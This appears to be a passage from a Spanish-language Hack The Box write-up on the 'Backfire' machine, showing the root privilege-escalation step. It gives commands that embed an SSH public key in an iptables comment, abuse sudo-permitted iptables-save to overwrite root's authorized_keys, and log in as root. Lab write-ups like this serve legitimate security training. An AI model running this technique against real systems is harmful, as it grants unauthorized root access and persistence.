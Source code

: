 ### Insertar clave SSH en iptables

Usamos el campo "comment" de iptables para insertar nuestra clave SSH pública:

```bash
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n<contenido de ssh-ed25519.pub>\n'
```

### Verificación

```bash
sudo /usr/sbin/iptables -S | grep "ssh-ed25519"
```

[![IPTABLES](/assets/img/writeups/hackthebox/backfire-hackthebox/iptables_serj.png)](/assets/img/writeups/hackthebox/backfire-hackthebox/iptables_serj.png)

### Explotación de iptables-save

Aprovechamos que podemos ejecutar iptables-save como root para escribir en el directorio de root:

```bash
sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```

Este comando guardará todas las reglas de iptables, incluyendo nuestro comentario con la clave SSH, en el archivo authorized_keys de root.

### Acceso root

Finalmente, usamos nuestra clave privada para conectarnos como root

```bash
ssh -i id_rsa root@localhost
```


[![root](/assets/img/writeups/hackthebox/backfire-hackthebox/root_serj.png)](/assets/img/writeups/hackthebox/backfire-hackthebox/root_serj.png)
